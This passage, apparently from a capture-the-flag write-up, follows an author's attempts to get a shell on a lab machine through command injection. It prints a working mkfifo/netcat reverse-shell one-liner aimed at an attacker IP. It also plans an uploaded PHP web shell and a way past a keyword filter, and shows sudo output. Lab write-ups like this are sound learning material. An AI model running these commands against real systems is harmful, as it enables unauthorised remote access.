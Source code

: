 We can't use the `cat` command for a return; but, it _may_ still execute on the victim box, so lets test it at least.

```
# Run first, to create the mkfifo
rm -f /tmp/f; mkfifo /tmp/f;
# Run second, for reverse shell
cat /tmp/f | /bin/sh -i 2>&1 | nc 10.11.8.219 4444 > /tmp/f;
```

Unfortunately we failed once again. I'm wondering at this point whether to:

a. Create shell script `shell.sh` and echo the _...Run second..._ part from above into it, then run that.
b. Create a PHP based shell, upload it to `/var/www/html` and just execute it.

I'll go with option _A_ first, then test _B_.

#### Shell attempt #1 (shell script)

To save time, I can determine if it's actally the _word_ `cat` that's causing the remote execution to fail. 

`echo 'cat';` if this fails, then we can skip to option B.

And fortunately-kinda, it fails. So looks like we should try another route. 

#### Shell attempt #2 (php script)

First we need to determine if we can `wget` files. If we can, we'll set up a `python3 -m http.server` on our attacker machine, create a PHP shell, upload it to `/var/www/html/...` then execute it by browsing to the file.

But, unfortunately, `wget` doesn't seem to return any response.

#### Shell attempt #3 (shell script hacky)

We can't run the `cat` command, but, we might be able to echo `ca`, and _then_ `t blah blah blah` into a script file that we execute. That way, we avoid inputting and explicit `cat` into our command.

We don't have _write_ access in `/var/www/html`.

On running `sudo -l`, our current user seems to have some funky permissions too. I'm unsure as to how to exploit this for the time being, but lets dive deeper and find our where we can write a shell to.

```
Matching Defaults entries for www-data on ip-10-10-3-141.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-3-141.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

It really feels like we _should_ have write access in `/var/www/html`, but lets try somewhere else. The classic `/tmp` directory is usually spankable.

```
touch /tmp/x.sh; ls -lah /tmp;
x.sh
```
